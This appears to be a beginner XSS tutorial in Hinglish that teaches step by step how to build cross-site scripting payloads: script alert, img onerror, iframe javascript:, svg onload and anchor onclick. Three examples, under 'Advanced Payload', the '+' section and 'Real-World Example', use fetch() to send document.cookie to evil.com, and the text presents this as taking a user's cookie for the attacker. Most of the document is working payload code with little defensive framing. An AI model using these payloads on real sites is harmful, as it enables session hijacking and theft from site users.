 # 💣 XSS Payload Banana – Step by Step

🔹 Step 1: Start karo <script> tag se

Yeh browser ko batata hai ke ab JavaScript chalne wali hai.

**<script>**

🔹 Step 2: JavaScript code likho uske andar

Sabse simple payload hota hai **alert('XSS')** — isse popup aata hai.

**<script>
alert('XSS');
</script>**

🔹 Step 3: End karo </script> se

Yeh batata hai ke JavaScript ka block khatam ho gaya.

---

### ✅ Final Payload:

**<script>alert('XSS');</script>**

---

### 🔥 Advanced Payload Example:

Agar tum cookie nikalna chahte ho:

**<script>
fetch("https://evil.com/steal?c=" + document.cookie);
</script>**

Yahan:

document.cookie → user ki cookie le raha hai

fetch() → us cookie ko attacker ki site par bhej raha hai

---

### ⚠️ Bonus Tip:

Kayi websites <script> block karti hain. Tab tum alternate technique use karte ho:

**<img src=x onerror=alert('XSS')>**

Yahan:

**<img>** toh allow hai

**onerror** JavaScript chala deta hai jab image load na ho

# 🔰 1. <img> tag ke saath XSS Payload

**<img src="x" onerror="alert('XSS')">**

### ✅ Kya ho raha hai?

**src="x"** → image load nhi ho paayi

**onerror="..."** → jab error aaya toh JavaScript chali

Isme " quotes use hue hain attribute values ke liye

Aur 'XSS' single quotes alert ke message mein

---

### 🔰 2. <iframe> tag ke saath XSS Payload

**<iframe src="javascript:alert('XSS')"></iframe>**

Kuch browsers allow nhi karte, lekin testing ke liye useful hai

---

### 🔰 3. <svg> + onload

**<svg onload="alert('XSS')"></svg>**

svg graphics ke liye hota hai, lekin onload ke through JavaScript chala sakte ho

---

### 🔰 4. Anchor Tag <a> with onclick

**<a href="#" onclick="alert('XSS')">Click me</a>**

Jab banda is link pe click kare, XSS payload trigger hoga

---

## 📌 "Double Quotes" aur 'Single Quotes' ka use:

Situation	Use

HTML attribute ke liye	"..." double quotes

JavaScript string ke liye	'...' single quotes ya double bhi chal jaata hai


Example:

**<img src="x" onerror="alert('Hello')">**

**"x"** → image path

**onerror="alert('Hello')"** → **outer quotes "..."** (HTML)

inner 'Hello' → (JavaScript)

---

### 📌 + ka use kab hota hai?

**+** ka use hota hai string concatenate karne ke liye JavaScript mein.
Matlab, do cheezein jorna.

Example:

**<script>
  fetch("https://evil.com/steal?cookie=" + document.cookie);
</script>**

**"https://..."** ek string hai

**document.cookie** second part

**+** dono ko jod raha hai

### Result: **https://evil.com/steal?cookie=abc123xyz** (cookie wali URL ban gayi)

---

### ✅ Real-World Example: Pure HTML Based XSS (no <script>)

**<img src="x" onerror="fetch('https://evil.com?c='+document.cookie)">**

---

